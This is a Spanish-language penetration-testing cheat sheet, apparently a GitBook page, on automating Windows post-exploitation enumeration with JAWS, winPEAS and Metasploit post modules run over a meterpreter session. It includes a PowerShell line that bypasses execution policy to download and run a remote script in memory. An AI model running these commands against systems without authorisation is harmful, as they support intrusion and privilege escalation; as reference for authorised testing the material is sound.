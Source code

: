 ## Automatizar enumeración

### JWAS

Just Another Windows (Enum) Script

{% code overflow="wrap" %}
```powershell
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```
{% endcode %}

{% embed url="https://github.com/411Hall/JAWS" %}

### winPEAS

{% code overflow="wrap" %}
```powershell
powershell -ExecutionPolicy Bypass "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
{% endcode %}

### Metasploit

Una vez ganado sesión remota con meterpreter

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>## Enumeración de privilegios
</strong><strong>> use post/windows/gather/win_privs
</strong><strong>> sessions
</strong><strong>> set session 1
</strong><strong>> run
</strong><strong>
</strong><strong># List users login
</strong><strong>> use post/windows/gather/enum_logged_on_users
</strong><strong>> set session 1 
</strong><strong>> run
</strong><strong>
</strong><strong># Listado de aplicaciones instaladas
</strong><strong>> use post/windows/gather/enum_applications
</strong><strong>> set session 1
</strong><strong>> run
</strong><strong>
</strong><strong># Check if are in vm
</strong><strong>> use post/windows/gather/checkvm
</strong><strong>> set session 1
</strong><strong>> run
</strong><strong>
</strong><strong># Listado de modulos disponiblles
</strong><strong>> search post/windows/
</strong></code></pre>

